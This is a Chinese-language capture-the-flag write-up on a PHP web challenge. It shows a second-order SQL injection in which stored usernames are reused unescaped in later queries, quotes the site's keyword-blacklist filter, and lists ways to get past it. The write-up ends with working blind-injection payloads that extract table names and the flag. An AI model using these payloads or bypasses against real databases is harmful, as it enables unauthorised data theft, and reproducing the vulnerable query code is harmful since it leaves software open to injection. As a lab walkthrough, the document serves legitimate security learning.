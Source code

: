 # 源码审计

在`class.php`中可能存在二次注入

```php
public function add_email($email)
{
    $id = $_SESSION['uid'];
    $sql_query = "SELECT username FROM users where id = '$id'";
    $row = mysqli_query($this->sql, $sql_query);
    $result = $row->fetch_all(MYSQLI_ASSOC);
    $username = $result[0]['username'];
    $email = mysqli_real_escape_string($this->sql, $email);
    $sql_query = "INSERT INTO `email` (`id`, `username`, `email`, `time`) VALUES (NULL,'$username','$email',NOW())";
    $this->sql->query($sql_query);
}

public function list_email()
{
    $id = $_SESSION['uid'];
    $sql_query = "SELECT username FROM users where id = '$id'";
    $row = mysqli_query($this->sql, $sql_query);
    $result = $row->fetch_all(MYSQLI_ASSOC);
    $username = $result[0]['username'];
    $sql_query = "SELECT email,time FROM email where username = '$username'";

    $row = mysqli_query($this->sql, $sql_query);
    $posi = 1;
    echo '<div class="container"><table class="table"><thead><tr><th scope="col">#</th><th scope="col">Email</th><th scope="col">Time</th></tr></thead><tbody>';
    while ($result = $row->fetch_assoc()) {
        echo '<tr><th scope="row">' . $posi++ . '</th><td>' . $result['email'] . '</td><td>' . $result['time'] . '</td></tr>';
    }
    echo '</tbody></table></div>';
}
```

可以看到`add_email`和`list_email`中所使用的`usernane`均来自数据库查询得到的结果,假设在注册时我们注册一个名为`' or 1#`的用户(暂时忽略waf)

在注册过程中,由于存在`mysqli_real_escape_string`,敏感字符会被转义后再执行sql语句,但是从数据库取出`username`后,并没有执行相应的`mysqli_real_escape_string`,因此`SELECT email,time FROM email where username = '$username'`会变成`SELECT email,time FROM email where username = '' or 1#'`因此造成了二次注入

# 绕过waf

```php
public function waf($value): bool
{
    $blackList = array(' ', '^', '#', '*', '/', '-', ';', '!', '~', '<', '>', '?', '=', urldecode('%00'), urldecode('%09'), urldecode('%0A'), urldecode('%0B'), urldecode('%0C'), urldecode('%0D'), urldecode('%A0'), '+', '`', '"', '\\', '()', 'or', 'and', 'between', 'insert', 'update', 'xml', 'delete', 'into', 'union', 'file', 'extractvalue', 'if', 'substr', 'hex', 'bin', 'ord', 'ascii', 'sleep', 'medium');
    foreach ($blackList as $item) {
        if (stripos($value, $item) !== false) {
            return false;
        }
    }
    return true;
}
```

1. 由于过滤了`or`和`and`,因此使用`||`和`&&`代替

2. 因为过滤了`or`,所以`information_schema`用`sys.schema_auto_increment_columns`代替

3. `=`被过滤,使用`like`或者`regexp`代替

4. 空格和空格的其他形式被过滤,使用`()`即`select(flag)`进行代替

5. `#`和`-`被过滤,构造`||'`去闭合最后的`'`

6. `substr`被过滤,可以使用`mid`代替

7. `medium`被过滤,可以使用十六进制`0x6d656469756d`代替

8. `^`被过滤,可使用`$`来从后往前进行匹配

## 查询medium下的表

`xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),%d,1)regexp'%s$')||'`

`xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),%d,1)like('%s'))||'`

得到`c1c7fbbb74d0d43101a2814ade767362,email,users`

## 查询c1c7fbbb74d0d43101a2814ade767362

题目提示flag在flag列中

`xxx'||(mid((select(flag)from(c1c7fbbb74d0d43101a2814ade767362)),%d,1)regexp'%s$')||'`

`xxx'||(mid((select(flag)from(c1c7fbbb74d0d43101a2814ade767362)),%d,1)like('%s'))||'`

完整脚本见[medium-sql.py](medium-sql.py)